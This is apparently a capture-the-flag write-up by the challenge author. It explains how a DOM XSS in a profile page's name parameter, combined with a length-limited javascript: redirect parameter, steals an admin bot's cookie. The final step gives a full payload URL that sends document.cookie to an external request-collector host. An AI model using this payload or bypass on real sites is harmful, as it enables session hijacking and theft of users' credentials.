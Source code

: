 the bot takes a url and open a headless browser and sets a cookie in this case is the flag
![](GimmeFlag-bot.png)

see we need to find a way to get the xss, Back to the user profile let's inspect the page
![](GimmeFlag-script.png)

we see that we can update the username using a param called `name` which will be updated using `document.getElementById('displayName').textContent` but is it vulnerable to xss ? hmm let's see
![](GimmeFlag-xss1.png)

Nope — it's not that the script gets rendered. Back to the script: we found a parameter called url which is used to redirect users to any other domain. Hmm — thinking of leaving the javascript: scheme, isn't it? But wait: it's limited to 15 characters, so there is no way to find a payload under 15 characters that can steal the cookie.

Let's play a little with what's in this script using the browser console.
since there is no way to put more than 15 chars in the `url` param and there is already a javascript variables decalred in the `script` tag we can use them to hold the payload we want to execute and use that variable to trigger this payload the first thing that come to yourmind is `eval()` right let's see in console

![](GimmeFlag-xss2.png)

ok let's use eval this time but with `window.location.href` ofc it gave use 404 :"\)

let's try this time `javascript:` schema

![](GimmeFlag-xss3.png)

still nothing let's try it this time with `window.location.href="javascript:str"` and viooola the payload got triggred.

![](GimmeFlag-xss4.png)

let's try to get our own cookie

![](GimmeFlag-xss5.png)
nice we now got the Dom xss let's get the bot cookie which conatins the flag by sending `http://192.168.1.9:5000/profile/ea7fc763-38d1-4c5d-bd6d-f518602c3e10?name=<script>fetch('https://30xbwg5j.requestrepo.com/'%2bdocument.cookie)</script>&url=javascript:name`

![](GimmeFlag-xss6.png)

and a few seconds later we have our flag :"

![](GimmeFlag-final.png)

and that's it i hope u enjoyed my lovely challenges can't wait to create more.
